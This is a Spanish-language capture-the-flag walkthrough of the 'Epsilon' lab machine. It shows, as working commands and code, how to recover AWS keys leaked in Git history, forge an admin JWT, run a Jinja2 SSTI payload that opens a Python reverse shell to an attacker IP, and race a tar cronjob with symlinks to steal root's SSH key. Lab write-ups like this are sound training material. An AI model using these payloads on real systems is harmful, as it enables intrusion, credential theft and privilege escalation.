




Epsilon es una máquina Linux de dificultad media que expone un repositorio Git en el servidor web. Durante la enumeración se descubren credenciales de AWS Lambda filtradas en los commits de Git, lo que permite obtener la clave secreta utilizada para firmar JWT en la aplicación Flask. Con esta clave podemos falsificar cookies de administrador y acceder a rutas protegidas. Finalmente, se escala a root abusando de un cronjob que ejecuta tar con la opción -h, lo que permite reemplazar archivos críticos mediante enlaces simbólicos.
nmap.tar y enlaces simbólicos.El primer paso es identificar qué servicios están expuestos en la máquina objetivo. Usamos nmap para un escaneo completo de todos los puertos TCP:
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 10.10.10.134Explicación de los flags:
-p-: Escanea todos los 65535 puertos.--open: Solo muestra los puertos abiertos.-sT: Escaneo TCP completo (conexión directa).--min-rate 5000: Envía al menos 5000 paquetes por segundo.-vvv: Verbosidad máxima.-n: Evita resolución de DNS.-Pn: Omite ping inicial (útil contra firewalls que bloquean ICMP).Resultados:
22/tcp open ssh
80/tcp open http
5000/tcp open httpInterpretación: Servidor SSH para acceso remoto, sitio web público en puerto 80 y otra aplicación HTTP en 5000 (API o aplicación interna).
Al visitar http://10.10.10.134 se obtiene un 403. Revisamos si hay un repositorio Git expuesto en /.git usando gitdumper:
./gitdumper.sh http://10.10.10.134/.git/ ~/CTF/Epsilon/loot/epsilon-repoEsto permite obtener historial de commits, archivos y credenciales filtradas.
Al inspeccionar los archivos actuales, las credenciales no estaban presentes. Revisamos los commits anteriores:
cd ~/CTF/Epsilon/loot/epsilon-repo
git log --oneline --graph --all
git log -p > ../commits_diff.txt
cat ../commits_diff.txtEn un commit anterior encontramos las credenciales de AWS Lambda:
@@ -8,8 +8,8 @@ session = Session(
- aws_access_key_id='',
- aws_secret_access_key='',
+ aws_access_key_id='AQLA5M37BDN6FJP76TDC',
+ aws_secret_access_key='OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A',
region_name='us-east-1',
endpoint_url='http://cloud.epsilon.htb'
) ✅ Importante: Solo retrocediendo en los commits se encuentran las credenciales.
Configuramos AWS CLI con las credenciales:
aws configure
# aws_access_key_id y aws_secret_access_key
# region: us-east-1Listamos las funciones Lambda:
aws --endpoint-url=http://cloud.epsilon.htb/ lambda list-functionsDescargamos el código de la función:
aws --endpoint-url=http://cloud.epsilon.htb/ lambda get-function --function-name costume_shop_v1
wget http://cloud.epsilon.htb/path/to/code.zip
unzip code.zip
cat lambda_function.pyEn este archivo se encuentra la clave secreta para firmar JWT.
Generamos un token JWT de administrador usando PyJWT:
import jwt
secret = 'VALOR_EXTRAIDO_DEL_LAMBDA'
token = jwt.encode({"username":"admin"}, secret, algorithm="HS256")
print(token)Colocamos este token en la cookie auth para acceder a rutas administrativas:
curl -v --cookie "auth=GENERATED_JWT_TOKEN_HERE" http://10.10.10.134/homeTambién podemos usar la misma cookie para acceder a http://epsilon.htb:5000/home:


En /order, los campos son evaluados con render_template_string, permitiendo SSTI. Para reconocimiento probamos:
{{ 3*3 }}Obtenemos 9 en la respuesta (Burp), confirmando vulnerabilidad:

Para ejecutar reverse shell usamos:
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('python3 -c "import socket,subprocess,os;s=socket.socket();s.connect((\'10.10.14.36\',6969));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\'/bin/bash\')"').read() }}Obtuvimos reverse shell y la primera flag (user.txt):

Usamos pspy y encontramos un cronjob de backup que ejecuta tar -h cada 5 segundos:
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*Abusamos de -h para reemplazar archivos críticos mediante enlaces simbólicos:
#!/bin/bash
while true; do
if [ -e /opt/backups/checksum ]; then
rm -f /opt/backups/checksum
ln -s -f /root/.ssh/id_rsa /opt/backups/checksum
break
fi;
doneExplicación: Este script se ejecuta en bucle esperando que checksum exista. Una vez creado por el cronjob, lo borramos y creamos un enlace simbólico apuntando a /root/.ssh/id_rsa. Cuando el cronjob vuelve a empaquetar con -h, se copia la clave privada a un lugar donde podemos accederla, simulando que se “descomprime” el backup.
Ejemplo de extracción de id_rsa:
cd /tmp
./root.sh
cd /var/backups/web_backups
cp 503891800.tar /tmp
cd /tmp
tar -xf 503891800.tar
cd opt/backups
cat checksum # Contiene la id_rsaFinalmente, conectamos vía SSH como root:
ssh -i id_rsa root@10.10.10.134Con esto se obtiene acceso completo a la máquina Epsilon.